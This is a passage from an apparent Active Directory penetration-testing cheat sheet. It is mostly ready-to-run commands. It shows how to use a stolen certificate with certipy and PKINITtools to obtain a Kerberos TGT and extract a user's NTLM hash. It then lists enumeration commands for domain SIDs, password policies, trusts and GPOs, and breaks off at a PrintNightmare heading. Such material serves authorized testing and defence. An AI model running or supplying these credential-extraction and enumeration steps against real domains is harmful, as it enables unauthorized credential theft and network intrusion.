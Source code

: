 #### **UnPAC the Hash**
```bash
# Use certificate to get TGT and extract NTLM hash
certipy auth -pfx user.pfx -dc-ip DC_IP
python3 gettgtpkinit.py domain.com/user -cert-pfx user.pfx -pfx-pass password
python3 getnthash.py domain.com/user -key TGT_KEY
```

---

## 📋 **Quick Commands Cheat Sheet**

### **Domain Info**
```bash
# Get domain SID
lookupsid.py domain.com/username:password@DC_IP

# Get domain functional level
Get-ADDomain | select DomainMode
```

### **Password Policies**
```bash
# Linux
enum4linux -P DC_IP

# Windows
net accounts /domain
```

### **Trust Relationships**
```bash
# Linux
nltest /domain_trusts

# Windows
Get-DomainTrust
```

### **GPO Enumeration**
```powershell
# PowerView
Get-DomainGPO
Get-DomainGPOLocalGroup
```

---

## 💥 **Advanced Exploitation Techniques**

### **🖨️ PrintNightmare (CVE-2021-1675/34527)**
